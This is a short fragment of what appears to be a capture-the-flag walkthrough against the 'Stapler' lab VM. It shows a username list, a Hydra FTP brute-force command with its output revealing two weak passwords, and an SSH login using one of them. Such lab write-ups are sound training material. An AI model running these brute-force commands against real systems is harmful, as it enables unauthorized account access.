 CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
john
barry
heather
garry
harry
scott
kathy
tim

root@kali:~/stapler# hydra -L users.txt -e nsr -v ftp://192.168.118.184
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-05-19 16:43:09
[DATA] max 16 tasks per 1 server, overall 64 tasks, 114 login tries (l:38/p:3), ~0 tries per task
[DATA] attacking service ftp on port 21
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[21][ftp] host: 192.168.118.184   login: SHayslett   password: SHayslett
[21][ftp] host: 192.168.118.184   login: elly   password: ylle
[STATUS] attack finished for 192.168.118.184 (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-05-19 16:43:33

root@kali:~# ssh SHayslett@192.168.118.184
-----------------------------------------------------------------
~          Barry, don't forget to put a message here           ~
-----------------------------------------------------------------
SHayslett@192.168.118.184's password:
Welcome back!



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/****/copyright.
